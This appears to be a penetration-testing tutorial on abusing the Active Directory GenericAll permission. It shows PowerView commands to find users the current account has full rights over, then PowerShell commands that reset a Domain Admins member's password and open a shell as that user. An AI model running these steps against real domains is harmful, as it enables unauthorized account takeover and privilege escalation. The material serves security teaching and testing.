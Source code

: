 ```yaml
---
title:  GenericAll On User
date: 2022-06-03 05:49:33 +0800
categories: [Infrastructure Pentesting, Active Directory]
tags: []  
---
```


# GenericAll

***GenericAll*** : Is a permission that gives full rights to an active directory objects. If you have *GenericAll* on user object, you can reset user's password without knowing the current password of the user, thereby escalating your privileges.

# Enumeration

## PowerView

### GenericAll Enumeration 

Get your current user's sid by executing `whoami /user`, import powerview, then execute the below command to get the list of objects on which you have *GenericAll* right.

Command
```powershell

get-objectacl -resolveguids | ? {($_.securityidentifier -eq "[your_current_user_sid]") -and ($_.activedirectoryrights -eq "GenericAll")}

```

*below image shows the current user `usman` has GenericAll right on user object `ali`*

![userace](https://raw.githubusercontent.com/cyberkhalid/cyberkhalid.github.io/main/assets/img/ipentest/aclusergenallenum1.png)

### User Enumeration

Execute the below command to get more information about the target user.

Command

```powershell

get-netuser [target_user]

```
*below image shows the target user `ali` is a member of `Domain Admins`*

![userace](https://raw.githubusercontent.com/cyberkhalid/cyberkhalid.github.io/main/assets/img/ipentest/aclusergenallenum2.png)

## BloodHound

You can also get thesame result using bloodhound.

*below image shows the current user `usman` has GenericAll right on user object `ali` who is a member of `Domain Admins`*

![userace](https://raw.githubusercontent.com/cyberkhalid/cyberkhalid.github.io/main/assets/img/ipentest/aclusergenallb.png)

# Exploitation

## PowerView

Since you have *GenericAll* right on user `ali`, you can reset his password and login to his account by executing the below command

Command

```powershell

$pass = ConvertTo-SecureString '[Your New Password Here]' -AsPlainText -Force
set-domainuserpassword -identity [target_user] -accountpassword $pass 
runas /user:[domain\user] cmd.exe
```

![userace](https://raw.githubusercontent.com/cyberkhalid/cyberkhalid.github.io/main/assets/img/ipentest/aclusergenallenum3.png)

# References

- [https://docs.microsoft.com/en-us/dotnet/api/system.directoryservices.activedirectoryrights?view=netframework-4.7.2](https://docs.microsoft.com/en-us/dotnet/api/system.directoryservices.activedirectoryrights?view=netframework-4.7.2)
- [https://book.hacktricks.xyz/windows-hardening/active-directory-methodology/acl-persistence-abuse](https://book.hacktricks.xyz/windows-hardening/active-directory-methodology/acl-persistence-abuse)
